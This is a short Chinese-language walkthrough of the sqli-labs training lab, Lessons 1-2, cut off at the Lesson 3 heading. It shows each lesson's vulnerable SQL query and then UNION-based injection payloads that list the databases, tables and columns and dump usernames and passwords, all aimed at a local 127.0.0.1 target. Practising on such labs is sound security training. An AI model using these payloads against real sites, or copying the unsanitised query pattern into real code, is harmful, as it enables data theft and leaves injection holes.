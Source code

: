 # sqli-labs靶场(1)GET型


sqli-labs靶场精简记录1-10



### Less-1 GET - Error based - Single quotes - String

基于错误的GET单引号字符型注入

vul

```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

bypass

```
http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

```
爆数据库
id=-1'union select 1,group_concat(schema_name),3 from information_schema.schemata--+

爆表名
id=-1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+

爆字段名
id=-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+

爆数据名
id=-1'union select 1,group_concat(username,password),3 from security.users--+
id=-1'union select 1,group_concat(username,password),3 from users--+
```



### Less-2GET - Error based - Intiger based

基于错误的GET整型注入

vul

```
 $sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

bypass

```
http://127.0.0.1/sqli-labs/Less-3/?id=-1 union select 1,2,3 --+
```

### Less-3 GET - Error based - Single quotes with twist string
